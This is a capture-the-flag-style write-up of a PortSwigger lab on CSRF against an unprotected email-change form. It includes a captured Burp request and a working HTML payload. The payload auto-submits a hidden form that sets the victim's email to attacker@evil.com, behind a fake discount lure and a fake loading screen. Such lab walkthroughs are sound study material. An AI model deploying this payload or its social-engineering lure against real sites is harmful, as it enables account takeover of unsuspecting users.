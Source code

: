 ## CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.
### Objective
	1. Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
	2. Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

### Credentials
	1.Username: wiener
	2.Password: peter

### Access the Lab:

 ```Copy
https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#
```

## Step by step walkthrough of Lab

	1.We get a website with a page like this:
	
![[CSRF-01.png]]

	2.As we know the vulnerability lies in the update email function lets go directly to My account.

![[CSRF-02.png]]

	3.We have a login screen here lets use the default creds given to us.

![[CSRF-03.png]]
	4.Here whatever email we provide it will get changed if the session cookie is verified,lets check the burp request after requesting for an email change.


```Burp
POST /my-account/change-email HTTP/1.1
Host: 0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Cookie: session=O5pjwIZh3kRuMmDnlREn568LPORTJgWw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://0a76007e047e4d3980ee0dd000150096.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: close

email=0mni@deuss.space
```

	5.Here we can see that the website is sending email as a POST request in body for changing the Email of that particular authenticated user.
	
![[CSRF-04.png]]
	6.Now Lets go to the exploit server.
![[CSRF-05.png]]
	7. Here everything is already set what we need to do is set the body parameter in such a way that when the user clicks on the crafted email it gets opened in their browser and the email changes to the attackers email.
```HTML
<html>
  <body>
    <h1>Limited Time Offer!</h1>
    <p>Click below to claim your exclusive discount!</p>
    
    <form id="csrfForm" action="https://{CHANGE-THIS-ACCORDING-TO-YOUR-URL}.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com"/>
    </form>
    
    <script>
      // Auto-submit the form immediately
      document.getElementById('csrfForm').submit();
      
      // Optional: Show a fake loading screen to make it seem more legitimate
      setTimeout(function() {
        document.body.innerHTML = '<h1>Processing your request...</h1><p>Please wait while we apply your discount.</p>';
      }, 100);
    </script>
  </body>
</html>
```
	8.The above code snippet is what i have engineered to do the following:
		1.Excite the user by social engineering(Here i have used discount coupon)
		2.Put the URL given by Lab in Action(IMPORTANT).
		2.A Form submission using POST request to the site.
		3.Make the Form submission hidden using type='hidden'
		4.provide name=email for the POST element(Check burp req).
		5.value=attacker@evil.com(The email we want to use to change for victim).
		6.Auto submit form using javascript.
		7.Showing a "Processing your request" fake discount processing.

![[CSRF-06.png]]
	9.Now lets copy the payload after `<body> to </body>` and click on View exploit to check if it is even working or not.
![[CSRF-07.png]]
	10.IT WORKED! The email has been changed by the attacker.
![[CSRF-08.png]]
	11.Now do the same again in exploit but this time change the email to something else and click on Deliver exploit to victim.
And Boom Lab is completed
![[CSRF-09.png]]
